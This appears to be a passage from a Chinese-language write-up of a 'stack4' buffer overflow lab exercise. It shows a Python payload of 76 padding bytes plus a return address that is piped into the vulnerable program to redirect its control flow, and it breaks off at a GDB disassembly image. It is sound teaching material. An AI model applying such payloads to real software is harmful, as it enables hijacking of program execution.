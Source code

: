 ```c
    gets(buffer);
}
```



## 攻击目标

使程序输出`code flow successfully changed`。



## 攻击过程

```shell
$ cat stack4_win.py
buffer = "A"*76
mod = "\xf4\x83\x04\x08"
win = buffer + mod
print win
$ python stack4_win.py > stack4_win.txt	#写入txt文件
$ cat stack4_win.txt
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA    	#76个A，最后4个字符为不可见字符
$ ./stack4 < stack4_win.txt
```

<img src=".\stack4-result.png" style="zoom:67%;" />



## 原理分析

分析源码可知，程序在正常情况下不会输出任何结果。

同样的，在GDB中得到汇编代码：

<img src=".\stack4-disassemble.png" style="zoom:67%;" />